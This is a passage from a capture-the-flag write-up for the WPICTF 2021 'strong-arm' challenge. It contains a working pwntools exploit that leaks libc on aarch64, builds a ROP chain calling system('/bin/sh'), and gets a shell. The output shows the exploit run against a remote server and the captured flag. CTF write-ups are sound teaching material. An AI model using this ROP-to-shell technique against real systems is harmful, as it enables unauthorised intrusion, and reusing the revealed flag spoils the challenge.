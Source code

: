 ```python  
           p = process(('stdbuf -i0 -o0 -e0 qemu-'+context.arch+' -g 9000 -L /usr/'+context.arch+'-linux-gnu '+binary.path).split())  
       else:  
           p = process(('stdbuf -i0 -o0 -e0 qemu-'+context.arch+' -L /usr/'+context.arch+'-linux-gnu '+binary.path).split())  
       libc = ELF('/usr/'+context.arch+'-linux-gnu/lib/libc.so.6')  
   p.recvuntil('print at ')  
```

More that your standard pwntools starter; I included support for all the
options I described above in the _Tooling_ section above.

```python  
_ = p.recvline().strip().decode()  
printf = int(_,16)  
libc.address = printf - libc.sym.printf  
log.info('libc.address: ' + hex(libc.address))

payload  = b''  
payload += 128 * b'A'  
payload += 8 * b'B'  
payload += p64(libc.search(asm('ldp x19, x20, [sp, #0x10]; ldp x29, x30, [sp],
#0x20; ret;')).__next__())  
payload += (8 * 3) * b'C'  
payload += p64(libc.search(asm('mov x0, x19; ldr x19, [sp, #0x10]; ldp x29,
x30, [sp], #0x20; ret;')).__next__())  
payload += p64(libc.search(b"/bin/sh").__next__())  
payload += (8 * 2) * b'D'  
payload += p64(libc.sym.system)

p.sendlineafter('> ',payload)  
for i in range(3): p.recvline()  
p.interactive()  
```

The rest of this just follows the _Exploit Walkthrough_ from above and should
be fairly straightforward.

Output:

```bash  
# ./exploit.py REMOTE=1  
[*] '/pwd/datajerk/wpictf2021/strong-arm/arm'  
   Arch:     aarch64-64-little  
   RELRO:    No RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
[*] '/pwd/datajerk/wpictf2021/strong-arm/libc-2.23.so'  
   Arch:     aarch64-64-little  
   RELRO:    Partial RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
[+] Opening connection to 172.104.14.64 on port 54732: Done  
[*] libc.address: 0x4000836000  
[*] Switching to interactive mode  
$ cat flag.txt  
WPI{a1ARM3d_arM315}  
```
